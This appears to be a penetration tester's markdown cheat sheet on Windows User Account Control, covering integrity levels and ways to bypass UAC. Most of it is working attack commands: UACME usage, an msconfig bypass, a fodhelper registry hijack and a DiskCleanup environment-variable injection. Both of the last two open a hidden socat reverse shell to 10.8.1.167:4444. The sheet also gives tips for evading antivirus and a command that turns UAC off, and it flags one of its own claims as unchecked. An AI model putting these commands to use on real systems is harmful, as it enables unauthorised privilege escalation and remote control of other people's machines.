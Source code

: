 #### User Account Control
User Account Control (UAC) is the GUI popup you get when trying to run something as administrator. It prevents a lot of exploits from working, but it can be bypassed.

#### Integrity Levels
Integrity Levels (IL) are used to differentiate users and processes for security purposes. There are 4 main levels:

|**Integrity Level**|**Use**|
|--- |---| 
|Low|Generally used for interaction with the Internet (i.e. Internet Explorer). Has very limited permissions.|
|Medium|Assigned to standard users and Administrators' filtered tokens. (e.g: running `cmd` as a user not named Administrator) |
|High|Used by Administrators' elevated tokens if UAC is enabled. If UAC is disabled, all administrators will always use a high IL token.|
|System|Reserved for system use.|

To check the current IL privilege level: 
```
whoami /groups
```
Example output;
```
[snip]
Mandatory Label\Low Mandatory Level
[snip]
Mandatory Label\Medium Mandatory Level
OR
[snip]
Mandatory Label\High Mandatory Level
```

For some operations, a `High` IL level is required (e.g. `net user /add`).


### Automated bypasses
To automate bypasses, use [UACME](https://github.com/hfiref0x/UACME/releases).

|Method Id|Bypass technique|
|---|---|
|33|fodhelper.exe|
|34|DiskCleanup scheduled task (Bypasses the "Always Notify") UAC level |
|70|fodhelper.exe using CurVer registry key (more stable, bypasses most AV) |
Syntax:
```
.\uacme.exe ID
```

### GUI bypasses
To go from a Medium
The easiest bypass is using `msconfig`: 
-  Type "msconfig" into the Windows search bar  (Or press "Windows-R" and enter "msconfig")
-  open "System Configuration"
-  Navigate to the "Tools" tab
-  Press "Command Prompt"
-  Click "Launch"

### Auto-elevating processes
Auto-Elevation (FACT-CHECK THIS) works without any GUI, antivirus enabld and will grant High IL permissions.
For the requirements to auto-elevate:
-  The executable must be signed by Micrososft/Windows
-  The executable must be in a trusted directory (e.g. `%SystemRoot%\System32\`, `%ProgramFiles%\`)
For `.exe` files, it needs the `autoElevate` to be set to `true` inside of the manifests.
To check this, use the SysInternals `sigcheck64`:
```
sigcheck64.exe -m PATH_TO_EXECUTABLE | findstr autoElevate
```

##### Example
To get an elevated reverse shell, use:
```shell-session
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.8.1.167:4444 EXEC:cmd.exe,pipes"
reg add "HKCU\Software\Classes\.edu\Shell\Open\command" /d %CMD% /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".edu" /f
fodhelper.exe
```
Note: Make sure to run this all at once, as AV will catch it after a few seconds. This does not seem to work without GUI.

##### Cleaning up:
```batch
reg delete "HKCU\Software\Classes\.edu\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

### Bypassing Always Notify
When the highest UAC level is active, the other exploits, except for the automated exploit using ID 34 won't work.
For this, we can use environment variables.

Normally, disk Cleanup is a command run in the Task scheduler (`Task scheduler -> Task scheduler library -> Microsoft -> Windows -> DiskCleanup`). The `Run with highest privieleges` box should be enabled, giving it a high access token.
When switching to the `Actions` tab, the command becomes visible:
```
%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`
```
For this, the `%windir` and `%systemdrive%` are environment variables, that can be modified, opening up for potential command injection.

##### Exploitation
```
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:10.8.1.167:4444 EXEC:cmd.exe,pipes &REM " /f      
schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```
##### Note: the "&REM " (including whitespace) is very important, because it comments out the normal command that would be run. It comments out the rest of the command being ran.
##### Cleaning up:
```
reg delete "HKCU\Environment" /v "windir" /f
```


##### Turning off UAC
```
reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f
```
